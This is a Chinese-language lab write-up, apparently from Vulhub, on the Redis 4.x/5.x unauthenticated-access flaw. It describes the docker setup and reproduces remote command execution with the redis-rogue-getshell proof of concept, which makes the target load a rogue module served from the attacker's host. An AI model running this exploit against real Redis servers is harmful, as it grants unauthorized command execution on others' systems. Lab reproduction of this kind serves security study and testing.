 # Redis 4.x/5.x 未授权访问漏洞

## 漏洞描述

Redis未授权访问在4.x/5.0.5以前版本下，我们可以使用master/slave模式加载远程模块，通过动态链接库的方式执行任意命令。

参考链接：

- https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf

## 环境搭建

Vulhub执行如下命令启动redis 4.0.14：

```
docker-compose up -d
```

环境启动后，通过`redis-cli -h your-ip`即可进行连接，可见存在未授权访问漏洞。

## 漏洞复现

redis未授权访问：

![image-20220228201652953](images/202202282016157.png)

使用如下POC即可直接执行命令https://github.com/vulhub/redis-rogue-getshell：

```
$ cd RedisModulesSDK/
$ make
$ python3 redis-master.py -r target-ip -p 6379 -L local-ip -P 8888 -f RedisModulesSDK/exp.so -c "id"
```

![image-20220228202202438](images/202202282022614.png)